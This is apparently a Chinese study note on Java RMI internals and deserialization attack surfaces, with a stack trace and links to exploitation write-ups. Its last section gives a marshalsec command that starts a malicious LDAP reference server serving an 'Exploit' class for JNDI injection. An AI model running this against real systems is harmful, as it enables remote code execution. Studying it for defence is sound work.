



## RMI工作流程

https://kingx.me/Exploit-Java-Deserialization-with-RMI.html

rmi register是注册表，主要维护的是名字到远程对象 Stub 的映射（通过服务端bind来创建），Stub包括（服务端IP，Port，ObjID）

rmi客户端访问注册表，注册表返回服务端的Stub信息

其中，调用远程方法过程是先从Stub中获取服务端地址，建立TCP连接，把函数名、参数序列化写入TCP连接中，服务端接收到参数后，反序列化参数和指定方法并根据ObjID执行方法，然后把结果反序列化后返回给客户端。



因为stub是一个proxy, 执行stub的方法时, 其实执行的是handler的invoke方法

具体执行过程是:

```
at sun.rmi.server.UnicastRef.invoke(UnicastRef.java:161)
at java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod(RemoteObjectInvocationHandler.java:227)
at java.rmi.server.RemoteObjectInvocationHandler.invoke(RemoteObjectInvocationHandler.java:179)
at com.sun.proxy.$Proxy0.sayHello(Unknown Source:-1)
at Client.main(Client.java:16)
```



其实是客户端往与服务端的连接中写入要执行的方法, 参数

然后执行conn.getInputStream(), 转服务端执行

服务端会执行到sun.rmi.server.UnicastServerRef#dispatch


服务端反序列化客户端传入的method和params, 执行代码, 然后将结果写入out中,转客户端

客户端反序列化服务端传回的结果. 结束

Server/Registry实际上是一对特殊的C/S, Server也是先拿到Registry的Stub，然后执行registry.bind(name, obj), 然后转registry执行，ObjID对应的对象就是registryImpl，执行的bind方法，往bindings写入 (name, stub)

## RMI攻击手法
https://forum.butian.net/share/541

调用远程方法并得到结果, 涉及到两次反序列化, 分别是

1. 服务器反序列化参数
2. 客户端反序列化结果


## 其他

### 启动ldap服务：

`java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8888/#Exploit 9999`
Exploit类在8888端口的web服务目录下。
lookup`ldap://localhost:1389`触发
